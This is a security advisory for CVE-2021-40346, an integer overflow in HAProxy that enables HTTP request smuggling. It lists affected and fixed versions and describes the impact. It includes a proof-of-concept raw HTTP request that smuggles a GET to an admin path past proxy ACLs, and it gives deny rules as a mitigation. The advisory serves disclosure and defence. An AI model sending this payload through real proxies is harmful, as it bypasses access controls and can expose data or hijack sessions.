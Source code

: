 ```yaml
---
description: CVE-2021-40346 High severity. An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests
title: Integer overflow in HAProxy leads to HTTP Smuggling
date_published: "2021-07-09"
last_updated: "2021-07-09"
xray_id: XRAY-184496
vul_id: CVE-2021-40346
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary

An integer overflow in HAProxy leads to HTTP Smuggling via simple network requests

## Component

[HAProxy](http://www.haproxy.org/)

## Affected versions

HAProxy [2.0 - 2.0.24], fixed in 2.0.25
HAProxy [2.1 - 2.1*], no fix. unmaintained version
HAProxy [2.2 - 2.2.16], fixed in 2.2.17
HAProxy [2.3 - 2.3.13], fixed in 2.3.14
HAProxy [2.4 - 2.4.3], fixed in 2.4.4
HAProxy Enterprise [2.0r1 - 2.0r1-1.0.0-234.1215], fixed in 2.0r1-1.0.0-235.1230
HAProxy Enterprise [2.1r1 - 2.1r1-1.0.0-238.612], fixed in 2.1r1-1.0.0-238.625
HAProxy Enterprise [2.2r1 - 2.2r1-1.0.0-241.491], fixed in 2.2r1-1.0.0-241.505
HAProxy Enterprise [2.3r1 - 2.3r1-1.0.0-242.330], fixed in 2.3r1-1.0.0-242.345
HAProxy Enterprise [2.4r1 - 2.4r1], fixed in 2.4r1-1.0.0-253.271
HAproxy Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAproxy Enterprise Kubernetes Ingress Controller [1.6 - 1.6.6], fixed in 1.6.7
HAProxy ALOHA [11.5 - 11.5.12], fixed in 11.5.13
HAProxy ALOHA [12.5 - 12.5.4], fixed in 12.5.5
HAProxy ALOHA [13.0 - 13.0.6], fixed in 13.0.7

## Description

Due to an integer overflow, a parsing error is created in HAProxy that allows an attacker to specify two `Content-Length` headers with different sizes. Subsequently, this allows an attacker to perform HTTP smuggling. This attack allows an adversary to smuggle HTTP requests to the backend server, without the proxy server being aware of it. The smuggled requests have various impacts, depending on HAProxy’s configuration and the backend web server configuration: Bypassing security controls, including any ACLs defined in HAProxy, Gaining unauthorized access to sensitive data, Executing unauthorized commands or modifying data, Hijacking user sessions, Exploiting a reflected XSS vulnerability without user interaction.

## PoC

Any attacker that can send requests through the proxy, can exploit this vulnerability, by sending requests such as:

```
POST /index.html HTTP/1.1
Host: abc.com
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 60

GET /admin/add_user.py HTTP/1.1
Host: abc.com
abc: xyz


```

The GET request will be smuggled and will evade any ACLs defined in the HAProxy configuration file.

## Vulnerability Mitigations

If you are not able to update right away, you can apply the following rules to your HAProxy configuration file to mitigate the vulnerabilities. These should be added to your frontend.

```
frontend myfrontend
http-request deny if { req.hdr_cnt(content-length) gt 1 }
http-response deny if { res.hdr_cnt(content-length) gt 1 }
```


## References

[(JFrog) Critical vulnerability in HAProxy ](https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/)

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-40346)